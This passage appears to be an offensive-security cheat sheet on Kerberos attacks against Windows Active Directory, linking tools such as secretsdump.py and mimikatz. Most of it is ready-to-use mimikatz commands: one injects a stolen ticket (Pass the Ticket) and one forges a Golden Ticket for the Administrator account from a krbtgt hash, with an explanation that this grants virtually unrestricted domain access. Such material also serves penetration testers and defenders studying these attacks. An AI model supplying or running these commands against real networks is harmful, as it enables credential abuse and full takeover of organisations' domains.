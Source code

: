 [[88]]
[[secretsdump.py]]
[[GetUserSPNs.py]]
[[mimikatz]]
### Pass the Ticket

Once a valid Kerberos ticket is obtained, PtT (Pass the Ticket) attacks can be performed using `mimikatz`.

```
mimikatz "kerberos::ptt ticket.kirbi"
```

Replace "ticket.kirbi" with your Kerberos ticket file.

`mimikatz` injects this ticket into memory, so any following command is authenticated against the Kerberos server using this ticket.

### Golden Ticket Attack

Creating a golden ticket allows virtually unrestricted access to the whole domain. For this, using `mimikatz` commands:

```
mimikatz "kerberos::golden /user:Administrator /domain:domain.com /sid:S-1-5-21-XXXX /krbtgt:eeb9046b77d48962314e376f1925065a /id:500"
```
